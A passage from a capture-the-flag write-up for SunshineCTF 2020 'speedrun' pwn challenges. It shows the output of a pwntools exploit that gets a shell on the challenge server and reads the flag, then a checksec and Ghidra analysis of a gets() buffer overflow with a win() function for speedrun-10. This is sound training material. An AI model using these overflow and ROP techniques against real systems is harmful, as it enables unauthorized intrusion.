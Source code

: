 pwntools has you covered!

Output:

```bash  
# ./exploit_09.py REMOTE=1  
[*] '/pwd/datajerk/sunshinectf2020/speedrun-09/chall_09'  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
[+] Opening connection to chal.2020.sunshinectf.org on port 30009: Done  
[*] Switching to interactive mode  
$ id  
uid=1000(chall_09) gid=1000(chall_09) groups=1000(chall_09)  
$ ls -l  
total 16  
-rwxr-xr-x 1 root root     8648 Nov  7 07:49 chall_09  
-rw-r----- 1 root chall_09   34 Nov  7 08:52 flag.txt  
$ cat flag.txt  
sun{coming-home-4202dcd54b230a00}  
```

## speedrun-10

### Checksec  
```  
   Arch:     i386-32-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x8048000)  
```

No canary--BOF, No PIE--ROP.

### Decompile with Ghidra

```c  
void vuln(void)  
{  
 char local_3e [54];  
  
__x86.get_pc_thunk.ax();  
 gets(local_3e);  
 return;  
}

void win(int param_1)  
{  
 int iVar1;  
  
 iVar1 = __x86.get_pc_thunk.ax();  
 if (param_1 == -0x21524111) {  
   system((char *)(iVar1 + 0x12e));  
 }  
 return;  
}  
```
